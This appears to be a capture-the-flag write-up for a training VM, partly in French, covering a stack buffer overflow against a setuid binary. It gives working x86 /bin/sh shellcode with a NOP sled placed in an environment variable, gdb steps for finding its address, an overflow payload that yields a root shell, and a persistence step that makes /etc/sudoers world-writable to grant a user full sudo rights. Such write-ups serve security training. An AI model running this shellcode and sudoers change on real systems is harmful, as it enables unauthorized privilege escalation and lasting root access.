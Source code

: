 ## Bonus 3 - Buffer Overflow

Similar to Return2libc attack, except that instead of pointing to /bin/sh, we will point to our own shellcode.

export SHELLCODE=`perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`

````bash
gdb exploit_me
(gdb) b *main
(gdb) r
(gdb) x/s *((char **)environ+0)

(gdb)  x/50xg 0xbffff8a3

0xbffff8a3:	0x444f434c4c454853	0x9090909090903d45
0xbffff8b3:	0x9090909090909090	0x9090909090909090
0xbffff8c3:	0x9090909090909090	0x310876895e1feb90
0xbffff8d3:	0xb00c4689074688c0	0x568d084e8df3890b
….
````

=> we take 0xbffff8b3
````bash
$> ./exploit_me $(python -c 'print "i"*140 + "\xb3\xf8\xff\xbf"')
````
=> we are root

Pour donner tous les privileges à zaz, on peut modifier les droits du fichier /etc/sudoers :
````bash
$ chmod 666 /etc/sudoers
````
Modifications du fichier :
````bash
[...]
16 # Cmnd alias specification
17
18 # User privilege specification
19 root    ALL=(ALL:ALL) ALL
20 zaz     ALL=(ALL:ALL) ALL
21
22 # Members of the admin group may gain root privileges
23 %admin ALL=(ALL) ALL
[...]
````
````bash
$> chmod 440 /etc/sudoers
````
````bash
$>sudo su
$>[sudo] password for zaz:
$>root@BornToSecHackMe:/home/zaz# id
$>uid=0(root) gid=0(root) groups=0(root)
````

https://beta.hackndo.com/buffer-overflow/
